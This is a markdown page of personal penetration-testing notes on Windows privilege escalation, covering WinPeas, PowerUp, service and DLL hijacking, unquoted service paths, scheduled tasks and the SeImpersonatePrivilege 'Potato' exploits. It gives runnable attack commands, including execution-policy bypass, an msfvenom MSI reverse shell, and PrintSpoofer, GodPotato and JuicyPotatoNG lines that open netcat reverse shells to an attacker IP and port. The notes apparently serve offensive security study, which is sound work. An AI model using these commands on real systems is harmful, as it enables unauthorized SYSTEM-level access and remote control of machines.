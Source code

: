 # Privilege Escalation

## WinPeas

[WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

(also installable with `sudo apt install peass`, resulting in binaries found with `winpeas --help` and `linpeas --help` )


If WinPeas shows the lines:

```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

we can install msis as authority\system.
Generate an msi reverse shell with `msfvenom`, and we own the machine.


## PowerUp

[PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

If the shell complains that scripts are turned off, do `powershell -ep bypass` to allow the script to be run.

Get it onto the target machine, do `Import-Module .\PowerUp.ps1`.
Now, we can run the functions defined in the script, such as `Get-ModifiableServiceFile` or `Get-UnquotedService`

Note that `Get-UnquotedService` will give you all the information you need, including the same results as enumerating which paths we have access to with `icacls $Path`.
It will give you the ModifiablePaths where we can dump our .exe for the service to find.


## EventViewer UAC Bypass

If PowerUp or winpeas tells you there's an escalation route through EventViewer UAC Bypass, have a look at [this](https://github.com/CsEnox/EventViewer-UACBypass).

## Windows services

### Hijacking the binary

remember you can use `Get-ModifiableServiceFile` from PowerUp.

We can query the wmi class `win32_service` in the following manner:
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

(will only work over RDP, not WinRM or a nc shell).


Once we identify a potentially vulnerable service, we can use `Get-ACL` or `icacls` to check permissions of the services.

We are looking for services where we are:

* Able to change the executable
* Able to restart the service

If we can switch out the executable with our own (eg from [win-x64-privesc](./../../payloads-n-scripts/win-x64-privesc/createadmin.exe)), we can escalate.

If the service is set to StartMode: Auto, consider if you can restart the machine after swapping out the exe-file.

### Hijacking DLLs

If we can see that a service runs specific DLLs, we might be able to hijack such a DLL and trigger our own code.

### Service Paths

Because of the way windows looks through paths, we can inject an executable into an unquoted path.
If the executable is located in:

```
C:\Program Files\SomeService\Version A\Service.exe
```
and we have write access to eg. 
```
C:\Program Files\SomeService\
```
then we can create a `Version.exe` and place it:
```
C:\Program Files\SomeService\Version.exe
```
This of course requires us to have write-access to part of the unquoted path, and access to restart the service in one way or another.


## Scheduled Tasks


To use tasks we need to consider:
* Who executes the task?
* What triggers the task?
* What happens it triggers?

Cmdlet for querying tasks:

```
schtasks /query /fo LIST /v

```
Information to look at is TaskName, Next Run Time, Author, Task to Run and Run As User.



As the output can be quite long, consider doing something like:

```
schtasks /query /fo LIST /v > tasks.txt
```
And then transfering the list to the attack box


## Procmon

Should you identify a windows service you are interested in analyzing with Procmon,
transfer it to a Windows VM (including any .dlls in the same dir), install the service with:

```
sc.exe create ${SERVICE_NAME} binPath="${EXE_PATH}"
```

Now, transfer Procmon to the VM, start Procmon, set `Filter > Process Name > ${EXE_NAME.exe}`, add and apply.
Consider removing the registry entries event view too as they tend to clutter the overview.

Now, do `sc.exe start ${SERVICE_NAME}` and you can analyze the events.
Hopefully, a missing dll will show up for you to use.


## Misc Exploits - SeImpersonatePrivilege

When looking at privilege escalation, the privilege `SeImpersonatePrivilege` can be interesting, as it allows users to run commands as another user.
By default, this privilege is given to the accounts:

* local Administrators
* LOCAL SERVICE
* NETWORK SERVICE
* SERVICE

If we have exploited IIS, it is not uncommon to have a shell running as

* LocalService
* LocalSystem
* NetworkService
* ApplicationPoolIdentity

Which all have SeImpersonatePrivilege.


Note that with SeImpersonatePrivilege it can be good to try out multiple of the "Potato" exploits as they might not all work.

[GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) seems to generally be pretty successful with creating a reverse shell.
If not that one, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) also seems to do the job most of the time.


### Potato command examples

```
./PrintSpoofer.exe -i -c cmd
```
or if you don't have an interactive shell:

```
./PrintSpoofer.exe -i -c "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```


```
./GodPotato -cmd "C:/Users/${user}/Desktop/nc.exe ${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```

```
./JuicyPotatoNG.exe -t * -p "C:/Users/chris/Desktop/nc.exe" -a "${ATTACKER_IP} ${ATTACKER_PORT} -e cmd"
```

If one doesn't work, try them all.
A workaround can also be to use them to create a new admin user that you can log in with.

